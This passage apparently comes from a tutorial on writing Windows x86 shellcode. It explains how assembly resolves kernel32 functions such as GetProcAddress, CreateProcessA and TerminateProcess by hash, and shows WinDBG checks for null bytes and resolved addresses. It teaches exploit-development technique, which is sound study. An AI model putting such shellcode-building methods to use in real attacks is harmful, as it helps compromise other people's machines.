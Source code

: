 ```python
    "   push  0x7c0dfcaa                ;"  #   GetProcAddress hash
    "   call dword ptr [ebp+0x04]       ;"  #   Call find_function
    "   mov   [ebp+0x24], eax           ;"  #   Save GetProcAddress address for later usage

    "   push  0x7ee258e7                ;"  #   CopyFileExA hash
    "   call dword ptr [ebp+0x04]       ;"  #   Call find_function
    "   mov   [ebp+0x28], eax           ;"  #   Save CopyFileExA address for later usage
```

The **`resolve_symbols_kernel32`** function is responsible for resolving the addresses of specific functions in the kernel32 module. It uses the previously found base address of the kernel32 module and the **`find_function`** function to obtain the addresses of the desired functions. Here is a breakdown of its steps:

1. **`push 0x78b5b983`**: This instruction pushes the hash value of the function name "TerminateProcess" onto the stack.
2. **`call dword ptr [ebp+0x04]`**: This instruction calls the **`find_function`** function, passing the hash value as an argument. It expects the address of the "TerminateProcess" function to be returned.
3. **`mov [ebp+0x10], eax`**: This instruction moves the returned address of the "TerminateProcess" function into the memory location **`[ebp+0x10]`** for later usage.
4. **`push 0xec0e4e8e`**: This instruction pushes the hash value of the function name "LoadLibraryA" onto the stack.
5. **`call dword ptr [ebp+0x04]`**: This instruction calls the **`find_function`** function again, passing the hash value as an argument. It expects the address of the "LoadLibraryA" function to be returned.
6. **`mov [ebp+0x14], eax`**: This instruction moves the returned address of the "LoadLibraryA" function into the memory location **`[ebp+0x14]`** for later usage.
7. **`push 0x16b3fe72`**: This instruction pushes the hash value of the function name "CreateProcessA" onto the stack.
8. **`call dword ptr [ebp+0x04]`**: This instruction calls the **`find_function`** function once more, passing the hash value as an argument. It expects the address of the "CreateProcessA" function to be returned.
9. **`mov [ebp+0x18], eax`**: This instruction moves the returned address of the "CreateProcessA" function into the memory location **`[ebp+0x18]`** for later usage.

After executing these steps, the addresses of the desired functions ("TerminateProcess", "LoadLibraryA", and "CreateProcessA") in the kernel32 module are stored in memory locations **`[ebp+0x10]`**, **`[ebp+0x14]`**, and **`[ebp+0x18]`**, respectively. These addresses can be retrieved later for invoking the corresponding functions.

We do a quick check for any null-bytes by using the memory dumper of WinDBG at our shellcode location.


Let’s step through the instructions one by one for the `TerminateProcess`.  We slowly check each function using the `u @eip La` command until we confirm our hashes match successfully.

```python
0:003> u @eax
KERNEL32!TerminateProcessStub:
763c9070 8bff            mov     edi,edi
763c9072 55              push    ebp
763c9073 8bec            mov     ebp,esp
763c9075 5d              pop     ebp
763c9076 ff2534494276    jmp     dword ptr [KERNEL32!_imp__TerminateProcess (76424934)]
763c907c cc              int     3
763c907d cc              int     3
763c907e cc              int     3
```
